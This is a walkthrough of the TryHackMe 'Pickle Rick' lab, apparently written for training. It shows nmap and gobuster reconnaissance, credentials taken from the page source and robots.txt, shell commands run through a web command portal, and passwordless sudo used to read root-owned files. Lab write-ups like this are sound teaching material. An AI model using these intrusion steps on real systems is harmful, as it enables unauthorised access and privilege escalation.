 # TryHackMe - Pickle Rick Walkthrough
---

## 1. Scanning

First, we start by scanning the target machine to see which ports are open.

```bash
nmap -T4 -sC -sV -A -p- 10.201.75.114
```
**Sample Output:**
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu
80/tcp open  http    Apache httpd 2.4.41
```
**Command Breakdown:**
- `-T4`: Set the speed of the scan (faster than default)
- `-sC`: Run default NSE scripts for discovery
- `-sV`: Attempt to determine the version of services
- `-A`: Enable OS detection, version detection, script scanning.
- `-p-`: Scan all ports
- SSH (22) is open → we may need credentials later.
- HTTP (80) is open → a website exists to explore.

---

## 2. Accessing the Website

We launch a browser (Firefox in our case) and type:

```
http://10.201.75.114
```

This loads the main webpage. Inspecting the page source reveals a username:

```
Username: R1ckRul3s
```

We take note of this username to use later for login.

---

## 3. Finding Hidden Directories

We use `gobuster` to enumerate hidden directories:

```bash
gobuster dir -u http://10.201.75.114 -w /usr/share/dirb/common.txt -x php,sh,txt,cgi,html,css,js,py
```

**Command Breakdown:**
- `-u`: Target URL
- `-w`: Wordlist for brute-forcing directories
- `-x`: File extensions to check

**Sample Output:**
```
/assets          (Status: 301)
/login.php       (Status: 200)
/portal.php      (Status: 200)
/robots.txt      (Status: 200)
```

We see `login.php`, `portal.php`, `assets/`, and `robots.txt`.

---

## 4. Finding the Password

Checking `robots.txt` via browser or curl:

```bash
curl http://10.201.75.114/robots.txt
```

**Output:**
```
Wubbalubbadubdub
```

This is our password. Now we can log in to `login.php` using:

- Username: `R1ckRul3s`
- Password: `Wubbalubbadubdub`

---

## 5. Accessing the Command Portal

Once logged in, we enter the **command portal**, which lets us run commands.

- First, check existing commands (files):

```bash
ls
```

**Output:**
```
Sup3rS3cretPickl3Ingred.txt
clue.txt
```

The first ingredient is in `Sup3rS3cretPickl3Ingred.txt`. Access it via:

```bash
curl http://10.201.75.114/Sup3rS3cretPickl3Ingred.txt
```

**Output:**
```
[First ingredient content]
```

---

## 6. Finding the Second Ingredient

Open `clue.txt` to get hints:

```bash
cat clue.txt
```

Hint mentions the file system → check `/home` directory:

```bash
ls /home
```

**Output:**
```
rick
ubuntu
```

Go into `rick` directory:

```bash
ls /home/rick
```

**Output:**
```
second ingredients
```

`cat` may be disabled, so we use `less` instead:

```bash
less '/home/rick/second ingredients'
```

**Output:**
```
[Second ingredient content]
```

**Explanation of `less`:**
- `less` lets you read files even if other commands (like `cat`) are blocked.
- Scrolls through content interactively without executing anything.
- [less-about](https://en.wikipedia.org/wiki/Less_(Unix))

---

## 7. Finding the Third Ingredient

Check `/root` directory:

```bash
ls /root
```

We do **not** have permission. Use `sudo` to elevate privileges:

```bash
sudo -l
```

**Output:**
```
User R1ckRul3s may run commands as root without password
```

Check contents of `/root`:

```bash
sudo ls /root
```

**Output:**
```
3rd.txt
```

Read the file using `less` with sudo:

```bash
sudo less /root/3rd.txt
```

**Output:**
```
[Third ingredient content]
```

**Explanation of `sudo`:**
- `sudo` allows running commands as the root user.
- `sudo -l` lists allowed commands without needing a password.

---

## 8. Summary of Ingredients

1. `Sup3rS3cretPickl3Ingred.txt` → First ingredient
2. `/home/rick/second ingredients` → Second ingredient
3. `/root/3rd.txt` → Third ingredient

---

# Congrats!
You have completed the Pickle Rick challenge on TryHackMe.
